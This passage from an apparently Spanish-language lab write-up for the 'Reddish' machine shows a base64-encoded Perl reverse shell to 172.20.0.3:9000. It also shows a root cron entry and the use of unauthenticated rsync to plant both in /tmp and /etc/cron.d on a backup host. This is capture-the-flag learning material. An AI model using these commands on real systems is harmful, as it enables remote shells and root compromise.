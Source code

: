 ```abap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #base64 -w 0 shell.sh | xclip -sel clip
```

### Y ahora en la máquina Victima, decodificamos ese base64 y lo pasamos a un archivo que vamos a llamar [shell.sh](http://shell.sh)

```abap
www-data@www:/tmp$ echo "IyEvYmluL2Jhc2gKCnBlcmwgLWUgJ3VzZSBTb2NrZXQ7JGk9IjE3Mi4yMC4wLjMiOyRwPTkwMDA7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9iYXNoIC1pIik7fTsnCg==" | base64 -d > shell.sh
www-data@www:/tmp$ cat shell.sh 
#!/bin/bash

perl -e 'use Socket;$i="172.20.0.3";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

### Y ahora nos vamos a crear otro archivo como tarea cron, para que root me ejecute algo, cada minuto y este archivo lo podemos llamar shell

```abap
www-data@www:/tmp$ echo "* * * * * root sh /tmp/shell.sh" > shell
www-data@www:/tmp$ cat shell
* * * * * root sh /tmp/shell.sh
```

### Ahora vamos a pasarnos nuestro archivo [shell.sh](http://shell.sh) al directorio /tmp/ de la victima aprovechándonos  de rsync que nos permite con la bandera -a subir archivos

```abap
www-data@www:/tmp$ rsync rsync://backup:873/src/tmp               
drwxrwxrwt          4,096 2021/09/29 02:39:01 tmp
www-data@www:/tmp$ rsync -a shell.sh rsync://backup:873/src/tmp
www-data@www:/tmp$ rsync rsync://backup:873/src/tmp
drwxrwxrwt          4,096 2021/09/29 02:40:21 tmp
www-data@www:/tmp$ rsync rsync://backup:873/src/tmp/
drwxrwxrwt          4,096 2021/09/29 02:40:21 .
-rw-r--r--            235 2021/09/29 02:32:39 shell.sh
```

### Ahora realizo lo mismo para subir mi archivo shell al directorio /etc/cron.d

```abap
www-data@www:/tmp$ rsync -a shell rsync://backup:873/src/etc/cron.d/
www-data@www:/tmp$ rsync rsync://backup:873/src/etc/cron.d/
drwxr-xr-x          4,096 2021/09/29 02:46:02 .
-rw-r--r--            102 2015/06/11 10:23:47 .placeholder
-rw-r--r--             29 2018/05/04 20:57:55 clean
-rw-r--r--             32 2021/09/29 02:36:32 shell
```
